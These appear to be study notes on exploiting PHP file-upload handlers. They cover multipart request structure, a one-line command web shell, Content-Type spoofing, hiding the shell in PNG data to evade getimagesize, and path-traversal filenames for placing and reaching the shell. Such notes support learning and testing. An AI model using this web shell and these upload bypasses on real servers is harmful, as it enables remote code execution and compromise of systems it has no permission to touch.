 **Post Request To Upload a File**

Content-Type: multipart/form-data

- Boundary: how the upload is split up into it's various components.
- WebKitFormBoundary: `IMAGE/png`
- Filename attribute: name of the file you're trying to upload.
- Name: taken from the html form. Used by the browser.
- Data: actual bytes of the file.
- The boundary usual includes extra data at the end of the file, in this case it would be the `submit` and `level` of the POST request.

_If you have a server that is missing a web-page PNG, and it has an upload feature, you might be able to upload a malicious file with the same name and get the server to execute the code while trying to display it on the web=page._

**Reading PHP Code** 

PHP code to check the boundary:

```php
<?php

if (!isset($_POST['submit']) || !isset ($_POST['level1'])) {
	echo "<p> Request is not valid: </p>";
	exit()
}
```

- Checks to see if the submit value, and level1 is in the post request. If it isn't set it will echo the error `Request is not valid` at the the user.

PHP will save a file with a temporary name and then after it will decide what to do with it. This prevents an attacker from being able to easily guess what the file is called.

What does it save?
- Name -> string(5) "hi.png"
- Full Path -> string(5) "hi.png"
- Type -> string(9) "image/png"
- Tmp Name -> string(10) "/tmp/zlxqm"
- Error -> int(0)
- Size -> int(129481)

The server shouldn't show any of these details.

What is the basename?

`www.example.com/content/www/index.html`

In the above example the basename would be index.html.

PATHINFO_EXTENSION?

- Extracts the extension from the name: `.html` or `.png`
- Used to create a new string for `target_path`

Target_Path

- Writes the file to the server

Move_FIle

- Moves file saved in `tmp` to the target_path.
- Uses internal php function `move_upload_file`
- Move current path to target path.

Header

- Redirect to home page.

---

Simple PHP CMD shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

Navigate to uploaded file:

`www.example.com/uploads/myfile.php`

How to use:

```php
www.example.com/uploads/myfile.php?cmd=whoami
```

If you have control of the `filename` in the POST request, you can upload a php file directly to the server giving you RCE.

1. Control of DATA
2. Control of extension
3. Can you access the file? Does the server expose information in the response that provides the upload location.

Changing content type

`Content-Type: application/x-php`

- You can modify the request in burp proxy to change the request to whatever the application accepts:

`Content-Type: image/png`

If the php is suing get image size function:

`getimagesize`

- Tries to read the size of the file, and is it can't it will return an error.

Issues: 
1. You can hide the php shell inside a PNG file.

PNG files, in the first few bytes, include a lot of data, like the width and height, and other information about the file. An attacker would want to place the PHP shell further down in the data for it to be successful. 

Exploitation of getimagesize:

1. Upload the file, proxy the request, and then add the PHP shell to the image data.
2. Change the filename to php in the web form boundary.
3. Upload the file.
4. Navigate to the file and use:

```php
www.example.com/myfile.php?cmd=whoami
```

The server might be set up to deny php code to run on a specific folder, in that case you would need to use path traversal to try and put the file into a location that does run our PHP shell.

For example:

`filename="../../shell.php"`

- You would also have to use path traversal to access the file after it's been uploaded. 

`www.example.com/profile/avatar/../../shell.php?cmd=whoami`

---

1. What type of file can i upload?
2. What control do i have? 
3. Can i access the uploaded file?
4. Do i know the full path?
5. Can i control the file extension










 




